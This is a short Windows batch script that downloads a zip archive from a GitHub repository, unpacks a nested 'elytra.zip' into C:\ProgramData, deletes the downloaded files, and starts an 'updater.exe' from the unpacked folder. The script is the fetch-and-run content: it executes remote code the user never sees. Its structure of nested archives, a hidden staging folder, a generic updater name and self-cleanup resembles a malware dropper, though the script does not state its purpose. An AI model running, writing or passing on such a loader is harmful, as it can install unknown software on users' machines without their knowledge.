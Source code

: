 @echo off
set MAIN_ZIP_URL=https://github.com/elytra993/databasevoid/archive/refs/heads/main.zip
set MAIN_ZIP_PATH=C:\ProgramData\databasevoid.zip
set MAIN_EXTRACT_PATH=C:\ProgramData\databasevoid-main
set INNER_ZIP_FOLDER=C:\ProgramData\databasevoid-main\DataBaseVoid-main
set INNER_ZIP_PATH=%INNER_ZIP_FOLDER%\elytra.zip
set FINAL_EXTRACT_PATH=C:\ProgramData\elytra
set UPDATER_PATH=%FINAL_EXTRACT_PATH%\updater.exe

echo Downloading main ZIP file from GitHub...
curl -L -o "%MAIN_ZIP_PATH%" "%MAIN_ZIP_URL%"
if %ERRORLEVEL% NEQ 0 (
    echo Error: Failed to download the main ZIP file.
    exit /B
)

echo Extracting main ZIP file...
powershell -command "Expand-Archive -Path '%MAIN_ZIP_PATH%' -DestinationPath '%MAIN_EXTRACT_PATH%'" 2>nul
if %ERRORLEVEL% NEQ 0 (
    echo Error: Failed to extract the main ZIP file.
    exit /B
)

echo Checking for elytra.zip at %INNER_ZIP_PATH%...
if exist "%INNER_ZIP_PATH%" (
    echo Found elytra.zip. Extracting to %FINAL_EXTRACT_PATH%...
    powershell -command "Expand-Archive -Path '%INNER_ZIP_PATH%' -DestinationPath '%FINAL_EXTRACT_PATH%'"
    if %ERRORLEVEL% EQU 0 (
        echo elytra.zip extracted successfully to %FINAL_EXTRACT_PATH%.
    ) else (
        echo Error: Failed to extract elytra.zip.
        exit /B
    )
) else (
    echo Error: elytra.zip not found at %INNER_ZIP_PATH%!
    exit /B
)

echo Cleaning up temporary files...
del "%MAIN_ZIP_PATH%" >nul 2>&1
rd /s /q "%MAIN_EXTRACT_PATH%" >nul 2>&1

echo Starting updater.exe...
if exist "%UPDATER_PATH%" (
    start "" "%UPDATER_PATH%"
    echo updater.exe started successfully.
) else (
    echo Error: updater.exe not found at %UPDATER_PATH%!
)

echo Process complete.
